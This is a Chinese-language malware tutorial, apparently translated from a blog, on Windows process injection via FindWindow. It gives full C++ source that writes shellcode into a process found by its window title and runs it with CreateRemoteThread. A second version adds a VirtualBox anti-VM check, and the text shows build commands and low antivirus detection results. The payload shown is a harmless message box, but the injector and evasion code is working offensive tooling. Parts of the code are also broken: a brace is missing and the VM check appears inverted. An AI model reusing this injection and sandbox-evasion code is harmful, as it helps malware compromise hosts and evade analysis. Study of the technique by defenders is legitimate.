







\newpage
\subsection{通过 FindWindow 进行进程注入：简单的 C++ 示例}

这篇文章是我自我研究某一个 Win32 API 函数的结果。

{width="80%"}

在我之前的一篇文章中，我写了如何按名称查找进程，用于我的注入器。

在编写进程注入器或 DLL 注入器时，如果能找到系统上运行的所有窗口，并尝试注入到由管理员启动的进程，那会很有用。

最简单的情形是，找到某个将成为我们受害进程的窗口。

### 实战示例

这项技术的流程很简单。我们来研究一下源代码：

```cpp
/*
 * hack.cpp - classic process injection 
 * via FindWindow. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/tutorial/
 2022/03/08/malware-injection-17.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <windows.h>

unsigned char my_payload[] =

  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

int main() {

  HANDLE ph;
  HANDLE rt;
  DWORD pid;

  // find a window for mspaint.exe
  HWND hw = FindWindow(NULL, (LPCSTR) "Untitled - Paint");
  if (hw == NULL) {
  printf("failed to find window :(\n");
  return -2;
  }
  GetWindowThreadProcessId(hw, &pid);
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);

  LPVOID rb = VirtualAllocEx(ph, NULL,
  sizeof(my_payload), 
  MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  WriteProcessMemory(ph, rb, my_payload, 
  sizeof(my_payload), NULL);

  rt = CreateRemoteThread(ph, NULL, 0, 
  (LPTHREAD_START_ROUTINE)rb, NULL, 0, NULL);
  CloseHandle(ph);

  return 0;

```

和往常一样，为了简单起见我们用 meow-meow 消息框作为载荷：

```cpp
unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
```

如你所见，主逻辑在这里：

```cpp
//...
// find a window for mspaint.exe
HWND hw = FindWindow(NULL, (LPCSTR) "Untitled - Paint");
if (hw == NULL) {
  printf("failed to find window :(\n");
  return -2;

GetWindowThreadProcessId(hw, &pid);
ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
//...
```

### 演示

我们来编译：

```bash
x86_64-w64-mingw32-g++ hack.cpp -o hack.exe -mconsole \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -Wint-to-pointer-cast \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

{width="80%"}

然后运行：

```bash
.\hack.exe 1304
```

{width="80%"}

{width="80%"}

我们可以看到一切都完美工作了 :)

### 反虚拟机

有些窗口的名称会暴露虚拟机的存在。在我们的例子中，是 VirtualBox 的窗口。

```cpp
/*
 * hack.cpp - VM evasion via FindWindow. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/tutorial/
 2022/03/08/malware-injection-17.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <windows.h>

unsigned char my_payload[] =

  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

int main(int argc, char* argv[]) {

  HANDLE ph;
  HANDLE rt;
  DWORD pid;

  // find a window with certain class name
  HWND hcl = FindWindow((LPCSTR) L"VBoxTrayToolWndClass", NULL);
  HWND hw = FindWindow(NULL, (LPCSTR) L"VBoxTrayToolWnd");
  if (hcl || hw) {
  pid = atoi(argv[1]);
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);

  LPVOID rb = VirtualAllocEx(ph, NULL, sizeof(my_payload), 
  MEM_RESERVE | MEM_COMMIT, 
  PAGE_EXECUTE_READWRITE);
  WriteProcessMemory(ph, rb, my_payload, 
  sizeof(my_payload), NULL);

  rt = CreateRemoteThread(ph, NULL, 0, 
  (LPTHREAD_START_ROUTINE)rb, NULL, 0, NULL);
  CloseHandle(ph);

  return 0;
  } else {
	printf("virtualbox VM detected :(");
  return -2;
  }

```

如你所见，我们只是检查操作系统中是否存在具有以下类名的窗口：

```bash
VBoxTrayToolWndClass
VBoxTrayToolWnd
```

我们来编译：

```bash
x86_64-w64-mingw32-g++ hack2.cpp -o hack2.exe -mconsole \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -Wint-to-pointer-cast \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

{width="80%"}

然后运行：

```powershell
.\hack2.exe 1304
```

{width="80%"}

所以在我们的 VirtualBox Windows 10 x64 上一切完美工作。

我们把 `hack2.exe` 上传到 VirusTotal：

{width="80%"}

所以，66 个 AV 引擎中有 4 个把我们的文件检测为恶意。

<https://www.virustotal.com/gui/file/dd340e3de34a8bd76c8693832f9a665b47e98fce58bf8d2413f2173182375787/detection>

我希望这一节能让蓝队意识到这项有趣的技术，同时为红队的武器库增添一件武器。

[FindWindow](https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-findwindowa)  
[Evasions UI artifacts](https://evasions.checkpoint.com/techniques/ui-artifacts.html)  
[source code in Github](https://github.com/cocomelonc/2022-03-14-malware-injection-17)

使用这个函数的另一个例子是虚拟机「规避」。
